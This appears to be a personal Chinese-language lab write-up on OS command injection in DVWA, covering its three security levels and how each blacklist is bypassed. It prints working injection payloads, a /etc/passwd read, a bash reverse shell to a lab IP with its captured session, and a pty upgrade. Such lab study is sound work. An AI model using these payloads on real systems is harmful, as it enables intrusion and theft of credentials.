







# 命令执行（OS Command Injection）

> 环境：DVWA（本地 Kali，http://192.168.59.128/DVWA/），安全等级 Low / Medium / High
> 时间：2026-11-04
**本地靶场演练，个人练习**

---

## 一、这是什么

应用把用户输入**直接拼进操作系统命令**再执行，输入里的 `;`、`&&`、`|` 等被 shell 当成命令分隔符，于是攻击者能跟着执行任意命令。

DVWA 的源码：

```php
$cmd = shell_exec( 'ping -c 4 ' . $target );
```

用户输入 `127.0.0.1; whoami`，实际执行的就是：

```bash
ping -c 4 127.0.0.1; whoami
```

**和 SQL 注入是同一类问题：数据变成了代码。**

| | SQL 注入 | 命令执行 |
|---|---|---|
| 输入被当成 | SQL 语句片段 | shell 命令片段 |
| 分隔符 / 越狱符 | `'` `#` `--` | `;` `&&` `\|\|` `\|` `&` |
| 本质 | 程序没把数据和代码分开 | 程序没把数据和代码分开 |

---

## 二、成立条件（三个同时满足才可能）

1. **有执行系统命令的功能**——ping、nslookup、解压、图片转换
2. **参数拼进命令**——用的是 `shell_exec()` / `system()` / `exec()` / `passthru()` / `proc_open()`
3. **输入没做校验或转义**

> 只满足第 1 条不算漏洞；只满足第 2 条但用了 `escapeshellarg()` 也不算。

---

## 三、命令连接符（必须分清）

| 连接符 | 含义 | 例子 |
|---|---|---|
| `;` | **无条件**执行后面 | `127.0.0.1; whoami` |
| `&&` | 前面**成功**才执行后面 | `127.0.0.1 && whoami` |
| `\|\|` | 前面**失败**才执行后面 | `badip \|\| whoami` |
| `\|` | 管道，前一条输出喂给后一条 | `127.0.0.1 \| whoami` |
| `&` | 放后台，不影响后面的执行 | `127.0.0.1 & whoami` |

**口诀**：`&&` 读作"而且"（有条件），`;` 读作"然后"（无条件）。

---

## 四、三档差异

| 难度 | 防护措施 | 绕过方法 |
|---|---|---|
| Low | 无 | `127.0.0.1; whoami` |
| Medium | `str_replace` 把 `&&` 和 `;` 替换为空 | 用单 `&`：`127.0.0.1 & whoami` |
| High | 黑名单数组 `$substitutions` | 黑名单里写的是 **`'\| '`（竖线+空格）**，用不带空格的 `\|` 即可 |

High 的源码（`exec/source/high.php`）：

```php
$substitutions = array(
    '||' => '', '&'  => '', ';'  => '',
    '| ' => '',   // ← 注意这里带空格
    '-'  => '', '$'  => '', '('  => '', ')'  => '', '`'  => '',
);
$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```

`127.0.0.1|whoami` 里的 `|` 后面没有空格，不匹配 `'| '` → 原样进入 shell → 执行。

---

## 五、实测记录

### 5.1 信息确认

| 项目 | 内容 |
|---|---|
| 目标 | `http://192.168.59.128/DVWA/vulnerabilities/exec/` |
| 参数 | `ip`（POST） |
| 正常输入 | `127.0.0.1` → 返回 ping 统计 |
| 确认执行身份 | `whoami` → **`www-data`** |

### 5.2 Low：分号

```
127.0.0.1; whoami
```



**结果**：ping 统计之后输出 `www-data`。确认可以执行任意命令。

### 5.3 Low：读取系统文件

```
127.0.0.1; cat /etc/passwd | head -5
```



**结果**：输出 `/etc/passwd` 前 5 行（`root:x:0:0:...`）。

> **危害**：Web 服务账号能读的文件，攻击者都能读——配置文件、数据库凭据、SSH 私钥。

### 5.4 Medium：单 `&` 绕过

```
127.0.0.1 & whoami
```



**结果**：输出 `www-data`（出现在 ping 结果之前，因为 `&` 是后台执行）。

**失败原因分析**：Medium 只过滤了 `&&`（两个字符）和 `;`，**一个 `&` 单独出现时没被处理**。

### 5.5 High：竖线绕过

```
127.0.0.1|whoami
```



**结果**：只输出 `www-data`，连 ping 结果都没有（管道把 ping 的输出丢掉了）。

### 5.6 High：黑名单源码



**根因**：`'| '` 带空格。黑名单写的是"竖线+空格"，实际的攻击写法往往不带空格。

### 5.7 反弹 shell

终端 A 起监听：

```bash
nc -lvnp 4444
```

输入框（截到地址栏，因为输入框太窄）：

```
127.0.0.1; bash -c "bash -i >& /dev/tcp/192.168.59.128/4444 0>&1"
```





nc 窗口输出：

```
listening on [any] 4444 ...
connect to [192.168.59.128] from (UNKNOWN) [192.168.59.128] 35290
bash: cannot set terminal process group (1159): Inappropriate ioctl for device
bash: no job control in this shell
www-data@kali:/var/www/html/DVWA/vulnerabilities/exec$ whoami
www-data
www-data@kali:/var/www/html/DVWA/vulnerabilities/exec$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@kali:/var/www/html/DVWA/vulnerabilities/exec$ hostname
kali
www-data@kali:/var/www/html/DVWA/vulnerabilities/exec$ pwd
/var/www/html/DVWA/vulnerabilities/exec
```

**两行红色警告不是报错**：`bash -i` 申请交互式终端，但 TCP 连接没有 TTY，`ioctl` 必然失败。**判断成功的唯一标准是提示符变成 `www-data@kali`。**

### 5.8 拿 shell 后的第一件事

```bash
whoami   # 我是谁
id       # 什么权限
pwd      # 我在哪
hostname # 哪台机器
```

然后**升级 TTY**（否则 vim / 交互式程序会卡死）：

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

顺序不能乱：**先确认身份，再加固终端，最后才谈提权**。

---

## 附：截图清单

| 编号 | 文件 | 说明 |
|---|---|---|
| 15 | 15-命令执行-Low-分号whoami.png | `127.0.0.1; whoami` → www-data |
| 16 | 16-命令执行-Low-读passwd.png | `cat /etc/passwd \| head -5` |
| 17 | 17-命令执行-Medium-单与号绕过.png | `127.0.0.1 & whoami` |
| 18 | 18-命令执行-High-竖线绕过.png | `127.0.0.1\|whoami` |
| 19a | 19a-反弹shell-完整payload.png | 地址栏里的完整 payload |
| 19b | 19b-反弹shell-nc收到shell.png | nc 窗口 + whoami/id/hostname/pwd |
| 20 | 20-命令执行-High-黑名单源码.png | `$substitutions` 数组 |
